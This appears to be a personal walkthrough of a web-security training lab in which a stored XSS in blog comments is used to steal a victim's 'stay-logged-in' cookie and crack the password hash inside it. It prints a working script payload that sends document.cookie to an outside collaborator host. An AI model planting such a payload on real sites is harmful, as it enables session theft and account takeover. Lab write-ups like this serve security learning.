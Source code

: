 # Practitioner Lab 77: Offline password cracking

---

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

I began this lab by looking at the functionality,

After doing so I went and go the cookie using the following payload.

```
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```

![Untitled](Practitioner%20Lab%2077%20Offline%20password%20cracking%200208eb6421a04181953bfbad2e8585ac/Untitled.png)

Another way to use it is to use the exploit server which I did on the following example 

![Untitled](Practitioner%20Lab%2077%20Offline%20password%20cracking%200208eb6421a04181953bfbad2e8585ac/Untitled%201.png)

After doing this I will use this cookie to bruteforce the password 

At this point it was unclear how I needed to use the stay-logged-in cookie so I tried to brute force without it on to see what it would do. 

![Untitled](Practitioner%20Lab%2077%20Offline%20password%20cracking%200208eb6421a04181953bfbad2e8585ac/Untitled%202.png)

Here we can see that the logged in token is carlos:hash 

now i need to check the hash

![Untitled](Practitioner%20Lab%2077%20Offline%20password%20cracking%200208eb6421a04181953bfbad2e8585ac/Untitled%203.png)

here I can see the hash and have the password.

![Untitled](Practitioner%20Lab%2077%20Offline%20password%20cracking%200208eb6421a04181953bfbad2e8585ac/Untitled%204.png)

![Untitled](Practitioner%20Lab%2077%20Offline%20password%20cracking%200208eb6421a04181953bfbad2e8585ac/Untitled%205.png)